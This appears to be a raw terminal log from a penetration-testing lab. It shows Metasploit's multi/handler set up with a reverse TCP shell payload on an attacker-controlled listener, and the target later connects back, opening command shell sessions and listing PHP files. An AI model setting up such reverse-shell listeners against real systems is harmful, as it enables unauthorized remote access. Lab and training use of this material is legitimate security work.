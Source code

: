 ```
kali@kali:~$ msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again

[*] Starting persistent handler(s)...
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.11.8.219      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.8.219:4444 
[*] Command shell session 3 opened (10.11.8.219:4444 -> 10.10.231.188:43392) at 2020-09-11 15:20:28 -0400
[*] 10.10.231.188 - Command shell session 3 closed.
[*] Command shell session 4 opened (10.11.8.219:4444 -> 10.10.231.188:43396) at 2020-09-11 15:21:22 -0400

ls
alertConfigField.php
alertIFrame.php
alertImage.php
defaultAlert.php
$ 

```